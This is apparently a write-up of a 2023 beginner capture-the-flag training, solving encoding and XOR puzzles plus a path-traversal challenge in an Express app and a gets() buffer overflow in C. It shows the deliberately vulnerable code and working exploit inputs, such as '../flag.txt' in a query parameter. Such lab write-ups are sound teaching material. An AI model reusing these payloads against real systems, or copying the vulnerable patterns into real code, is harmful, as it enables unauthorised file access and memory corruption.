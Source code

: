 # Training 2023
https://neuland-ingolstadt.de/stand

---

## The Mensa (stego)

`YXluYXF7YTA3LTBhMWwtN3UzLXozYTU0LTE1LXAwMHgxYTktMjNwMWMzNS11MzIzfQ==`

#### Solution

> Decode the Base64 string however you like

```console
echo 'YXluYXF7YTA3LTBhMWwtN3UzLXozYTU0LTE1LXAwMHgxYTktMjNwMWMzNS11MzIzfQ==' | base64 -d
```

`aynaq{a07-0a1l-7u3-z3a54-15-p00x1a9-23p1c35-u323}`

>But we are not done yet, the flag needs to be in following format nland{...}
>Let's try ROT13
>Yup! That does the magic.

`nland{n07-0n1y-7h3-m3n54-15-c00k1n9-23c1p35-h323}`

## THI is the Key (crypto)

`:$(:,2g>zf1dly~y+y!&~a5`

#### Solution

> According to the task, it can be assumed, we got a XOR-Cipher with "THI" as the key. Let's try that.
> Im using [Cyberchef](https://gchq.github.io/CyberChef/) for that task:

`nland{3v32y-817-c0un75}`

## Web Path Traversal (web)

> Exploit at http://ctf.informatik.sexy:12903

```js
const fs = require('fs/promises');
const express = require('express');
const app = express();

// in many classic CTF formats there exists a file flag.txt
// which contains the flag you are looking for

app.get('/', async (req, res) => {
  const data = await fs.readFile('./index.html');
  res.end(data);
});
app.get('/blog', async (req, res) => {
  try {
    const name = req.query.name.toLowerCase();
    const data = await fs.readFile('./facts/' + name);
    res.end(data);
  } catch (e) {
    res.end(e.toString());
  }
});

app.listen(3000);
```

#### Solution

> As we see in the code, the query parameter `name` is directly used as input to pull files from the server's local directory `./facts` without any obstructive input sanitization.
> Let's assume the directorys absolute path: `/var/www/html/facts` and let the file name be `flag.txt`. To perform path traversal we can now use `../` to go to the parent directory from our current working directory. With little to no effort we got the flag:
> `{URL}/blog?name=../flag.txt`

`nland{d1d_w1nd15ch_734ch_y0u_7h15?}`

## Buffer Overflow (rev / pwn)

> Exploit at `nc ctf.informatik.sexy 12902`

```c
#include <stdio.h>
#include <string.h>
#include "secrets.h"

// the following are defined in secrets.h:
// #define SECRET_PASSWORD "..."
// #define SECRET_FLAG "..."

int main() {
  char password[16];
  int valid = 0;

  // make sure bytes sent dont get stuck in a buffer
  setvbuf(stdout, NULL, _IONBF, 0);

  printf("Enter password:\n");
  gets(password);

  if(strcmp(password, SECRET_PASSWORD) == 0)
    valid = 1;

  if(valid)
    printf("Welcome back! Here is your flag: %s\n", SECRET_FLAG);
  else
    printf("Wrong!\n");

  return 0;
}
```

#### Solution

> After looking through the code, I noticed that a very unsecure function `gets()` is used.
> [Click here](https://faq.cprogramming.com/cgi-bin/smartfaq.cgi?answer=1049157810&id=1043284351) to find out why exactly this function is considered dangerous to use.
> Let's spam some a's:

```console
nc ctf.informatik.sexy 12902
Enter password:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

> Nice! We got the flag:

`nflag{0verf10wing_th1s_g3t5}`

